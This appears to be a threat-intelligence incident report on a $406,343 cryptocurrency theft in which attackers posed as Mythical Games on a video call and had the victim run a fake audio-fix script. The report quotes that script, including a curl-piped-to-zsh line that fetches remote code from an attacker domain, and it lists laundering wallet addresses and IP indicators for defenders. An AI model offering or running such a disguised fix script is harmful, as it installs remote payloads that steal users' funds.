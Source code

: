 # A6 via Fake Mythical Games

Date:: February 28th, 2025

Time:: 12:25 UTC – 01:58 UTC, 23:09 UTC

Amount Stolen:: $406,343

Tags:: 🔑 SquidSquad

---


## Details

Had a video call with the exploiters

Was an issue with the sound

Victim ran the suggested fix script provided by the exploiters.

On call were 3 males. 2 didnt speak, one did. Seemed like live interaction (?)

- “John Linden” - @mythicaljohn - 7440942015

- https://calendly.com/john-mythicalgames/30min?month=2025-03

- meet[.]mythicalgames[.]foundation/zoom/join?mn=65185420&pwd=r47BVC

```
system_profiler SPAudioData
softwareupdate --evaluate-products --products audio --agree-to-license
curl -A audio -s https://api.zoom-sdk[.]us/update/drivers/65185420 | zsh
system_profiler SPSoundCardData
softwareupdate --evaluate-products --products soundcard
system_profiler SPSpeechData
softwareupdate --evaluate-products --products speech --agree-to-license
```




## Onchain

- TK3E1NWkehLoBKUWbhjUudxxjN4abYdu7T - Direct Theft

- EQAq887cEkvOMBdafawfjl8JqKIsk3DQopMT8q79D7r - Direct Theft

- 0x37ef7efda71203f17f26730611bd8eef11f5f8af - Primary Theft

- 0xd5944357a065245064a8b8dfc58e789a90dce0f6 - Consolidation

- TGoZ4yeuG13ysYYZEX334PvnqyWDnDJ2JT - Source of Gas Funds (Feb 28 2025)

- TAJFh3AqQKm6bvUYejJrH3k8htwTbunn5g - Source of Gas Funds (Feb 28 2025)

- 0x73565a7488cb4853c17923d88da3ccb81fd9aa8e - eXch Depo ($192k, Mar 14 2025)

- 0x0c52194fd9148de91e96a8e123ab90f1482c6449 - eXch Depo ($218k, Mar 14 2025)

- bc1q9knpsljy40j5jmphcyl7nzvhjvch5gp6kzhwnn - eXch Withdrawal ($191k)

- bc1qv4qm5jy2qy30ggjlygkd2665t90dcwuyga9hxe - eXch Withdrawal ($218k)

- bc1qfe4h6ghdg0fj37ftmsw437mfc4e74v5pvhfx8u - Laundry (Apr 10 2025)

- Used Defiway, ChangeNOW, FixedFloat, Symbiosis, OKX Dex, Bridgers from TRON and TON -> ETH



## Indicators

- Feb 28 2025 - 85.203.44.XX

- Mar 3 2025 - 103.125.146.XX

- Mar 3 2025 - 103.163.220.XX

- Mar 3 2025 - 83.234.227.XX (Leaked TTK)

- Mar 3 2025 - 212.30.36.XX
